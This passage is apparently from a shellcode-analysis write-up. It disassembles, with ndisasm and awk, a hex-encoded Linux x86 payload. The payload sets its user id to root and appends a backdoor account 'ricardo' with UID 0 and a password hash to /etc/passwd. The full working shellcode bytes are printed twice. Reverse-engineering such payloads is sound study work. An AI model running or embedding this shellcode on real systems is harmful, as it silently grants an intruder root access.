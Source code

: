 
Or a little quicker:

```
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```



![Screenshot](../images/adduser/5.png)

Using awk it is possible to get only the part we want and create a .nasm file:

```
echo -e "section .text\nglobal _start \n_start:" > 1.nasm

echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 1.nasm
```
